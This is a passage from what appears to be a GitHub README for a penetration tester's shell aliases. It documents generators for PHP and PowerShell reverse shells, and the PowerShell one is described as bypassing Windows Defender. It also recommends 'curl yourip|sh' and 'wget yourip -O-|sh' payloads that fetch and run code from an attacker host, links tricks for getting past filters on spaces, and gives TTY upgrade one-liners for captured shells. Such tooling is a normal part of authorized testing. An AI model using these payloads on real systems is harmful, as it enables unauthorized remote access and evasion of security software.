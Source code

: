 ```
```
> #### Notes
> - I really like how the `curl yourip|sh` payload doesn't really have any badchars besides possibly the space and the pipe. When spaces form an issue there are [ways around this](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#bypass-forbidden-spaces) and the pipe can be bypassed by just downloading and executing separately.
> - If curl is not installed on the remote machine you can try `wget yourip -O-|sh`
 

### > gen_php_rev $ip $port

Generates the [PentestMonkey PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell) with the supplied ip and port and saves it in the current directory.  
Example: 
```
┌──(jazz㉿kali)-[~]
└─$ gen_php_rev 127.0.0.1 1337                                                              
[+] Wrote PHP reverse shell to /home/jazz/jazz.php
```
### > gen_ps_rev $ip $port
Generates a Powershell reverse shell with the supplied ip and port which at the moment of last usage bypassed defender. I'm not sure who to give credit for this payload. 
Example:
```
┌──(jazz㉿kali)-[~]
└─$ gen_ps_rev 127.0.0.1 1337
```
Clipboard contents after:
```
powershell -ec JABUAGEAcgBnAGUAdABIAG8AcwB0A...
```

## TTY upgrades
### > uptty
Copies the python(2) and python3 tty upgrade command to the clipboard. 
Example: 
```
┌──(jazz㉿kali)-[~/jazz]
└─$ uptty
```
Clipboard contents after:
```
python3 -c 'import pty;pty.spawn("/bin/bash")';python -c 'import pty;pty.spawn("/bin/bash")'
```
> #### Notes
> - Requires `xclip` to be installed
> - `py_tty_upgrade` and `py3_tty_upgrade` are still included for now but will call this alias instead

### > script_tty_upgrade
When Python is not installed on the remote machine you can use this command to copy the `script` method to upgrade to a tty shell to your clipboard. 
Example: 
```
┌──(jazz㉿kali)-[~/jazz]
└─$ script_tty_upgrade
```
Clipboard contents after:
```
/usr/bin/script -qc /bin/bash /dev/null
```
> #### Notes
> - Requires `xclip` to be installed
